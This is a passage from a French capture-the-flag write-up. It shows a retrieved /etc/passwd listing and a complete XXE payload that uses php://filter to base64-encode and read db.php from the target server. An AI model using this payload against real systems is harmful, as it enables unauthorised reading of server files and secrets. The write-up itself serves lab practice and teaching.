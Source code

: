 ![repeater_passwd](img/repeater_passwd.png) <br>

À partir du fichier que nous avons récupéré, nous voyons que nous avons 2 utilisateurs qui pourraient avoir un accès SSH. :

```
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Ensuite, j'ai essayé d'exfilter plusieurs autres fichiers qui ne m'a rien donné d'intéressant.<br>
À un certain moment, je me suis souvenu du fichier `db.php` qui nous donnait une page blanche lorsque nous l'avons visité sur notre navigateur.<br><br>
J'étais sûr qu'il y avait du code **PHP** là-dedans que notre navigateur ne pouvait tout simplement pas interpréter, alors j'ai utilisé le module `php`<br>
avec ses filtres intégrés afin d'encoder le fichier en base64 avant qu'il ne soit rendu par le navigateur.<br><br>
Cette façon nous permettrait de voir les données avant que **PHP** interprètes et envoies à notre navigateur. <br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```
